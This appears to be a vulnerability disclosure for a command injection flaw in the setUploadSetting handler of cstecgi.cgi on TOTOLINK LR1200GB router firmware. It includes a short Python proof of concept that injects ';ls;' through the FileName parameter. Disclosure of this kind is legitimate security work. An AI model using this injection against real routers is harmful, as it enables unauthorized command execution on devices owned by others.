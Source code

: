# TOTOLINK LR1200GB(V9.1.0u.6619_B20230130) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html

## Affected Version
V9.1.0u.6619_B20230130
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `setUploadSetting` handler function of  `cstecgi.cgi`. The value of the `FileName` parameter will be spliced ​​into the `cp %s /tmp....` and be excuted by `system` function, which allows an attacker to excute any command.
![Vulnerability](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = {
    "FileName":";ls;",
    "topicurl":"setUploadSetting",
    "token":"00000000000000000000000000000000"
}

requests.request("POST", url, data=payload)
```
![postman](postman.png)